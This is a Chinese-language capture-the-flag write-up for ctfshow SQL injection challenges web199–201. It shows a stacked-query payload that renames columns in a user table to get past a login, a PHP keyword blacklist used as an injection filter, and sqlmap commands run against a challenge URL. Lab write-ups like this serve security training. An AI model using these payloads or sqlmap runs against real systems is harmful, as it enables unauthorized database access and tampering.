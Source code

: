 这里过滤了括号 所以我们可以使用text来代替

```typescript
0;alter table ctfshow_user change `username` `passwd` text;alter table ctfshow_user change `pass` `username` text;alter table ctfshow_user change `passwd` `pass` text;
```

然后我们可以使用 username = 0 passwd = userAUTO

登入

或者使用show tables依旧可以

## web200

这里我们看看过滤内容

```php
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(|\,/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }
```

发现就多了一点内容 但是影响 199的也可以继续使用

## web201 SQLMAP-- GET

这里叫我们使用 sqlmap

并且需要通过--referer来指定检测 我们看看不使用referer会如何



<img src="https://i-blog.csdnimg.cn/blog_migrate/c22f60263d8e3d69af7cfe91590e685f.png" alt="" style="max-height:120px; box-sizing:content-box;" />


发现是无法实现的

这里有两个方式

### 指定referer

```cobol
py3 .\sqlmap.py -u "http://50b41e16-3b03-4cfc-a025-edb290b5eee0.challenge.ctf.show/api/?id=1"  --referer "ctf.show"
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/9a9752b3bfed75f7b1f7a3e64bea2363.png" alt="" style="max-height:502px; box-sizing:content-box;" />


第二种

### 提高level

```cobol
py3 .\sqlmap.py -u "http://50b41e16-3b03-4cfc-a025-edb290b5eee0.challenge.ctf.show/api/?id=1"  --level 3
```

